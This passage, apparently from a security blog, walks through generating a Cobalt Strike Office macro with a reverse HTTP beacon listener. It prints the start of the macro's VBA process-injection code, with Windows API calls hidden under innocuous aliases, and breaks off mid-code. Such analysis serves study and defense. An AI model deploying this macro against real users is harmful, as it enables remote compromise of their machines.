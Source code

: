 ![Screenshot of Cobalt Strike MS Office Macro Generator](/media/playing-with-cobalt-strike-2.png)

Of course, I first have to set up a "listener," something for my macro to contact. Luckily, HelpSystems provides their users (and abusers) with a set of [well-detailed documentation](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/welcome_main.htm). I decided to use `windows/beacon_http/reverse_http` as my payload, configured as shown below.

![Screenshot of Listener for Macro](/media/playing-with-cobalt-strike-3.png)

Upon generation of the macro, Cobalt Strike displayed macro deployment instructions. Red teaming is fool-proof these days!

![Screenshot of Macro Deployment Instructions](/media/playing-with-cobalt-strike-4.png)

Here is the source code of the macro:

```vb
Private Type PROCESS_INFORMATION
    hProcess As Long
    hThread As Long
    dwProcessId As Long
    dwThreadId As Long
End Type

Private Type STARTUPINFO
    cb As Long
    lpReserved As String
    lpDesktop As String
    lpTitle As String
    dwX As Long
    dwY As Long
    dwXSize As Long
    dwYSize As Long
    dwXCountChars As Long
    dwYCountChars As Long
    dwFillAttribute As Long
    dwFlags As Long
    wShowWindow As Integer
    cbReserved2 As Integer
    lpReserved2 As Long
    hStdInput As Long
    hStdOutput As Long
    hStdError As Long
End Type

#If VBA7 Then
    Private Declare PtrSafe Function CreateStuff Lib "kernel32" Alias "CreateRemoteThread" (ByVal hProcess As Long, ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As LongPtr, lpParameter As Long, ByVal dwCreationFlags As Long, lpThreadID As Long) As LongPtr
    Private Declare PtrSafe Function AllocStuff Lib "kernel32" Alias "VirtualAllocEx" (ByVal hProcess As Long, ByVal lpAddr As Long, ByVal lSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
    Private Declare PtrSafe Function WriteStuff Lib "kernel32" Alias "WriteProcessMemory" (ByVal hProcess As Long, ByVal lDest As LongPtr, ByRef Source As Any, ByVal Length As Long, ByVal LengthWrote As LongPtr) As LongPtr
    Private Declare PtrSafe Function RunStuff Lib "kernel32" Alias "CreateProcessA" (ByVal lpApplicationName As String, ByVal lpCommandLine As String, lpProcessAttributes As Any, lpThreadAttributes As Any, ByVal bInheritHandles As Long, ByVal dwCreationFlags As Long, lpEnvironment As Any, ByVal lpCurrentDirectory As String, lpStartupInfo As STARTUPINFO, lpProcessInformation As PROCESS_INFORMATION) As Long
#Else
    Private Declare Function CreateStuff Lib "kernel32" Alias "CreateRemoteThread" (ByVal hProcess As Long, ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As Long, lpParameter As Long, ByVal dwCreationFlags As Long, lpThreadID As Long) As Long
```